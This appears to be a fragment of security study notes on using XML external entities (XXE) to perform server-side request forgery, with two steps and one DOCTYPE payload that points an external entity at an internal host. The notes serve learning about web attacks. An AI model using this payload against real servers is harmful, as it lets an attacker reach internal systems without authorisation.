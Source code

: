 --- ---

<h2>Exploiting XXE to Perform SSRF Attacks</h2>

- Need to do the following:
	- Define an external XML entity using the URL you want to target
	- Use the defined entity within a data value

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM " http://internal.vulnerable-
website.com/"> ]>
```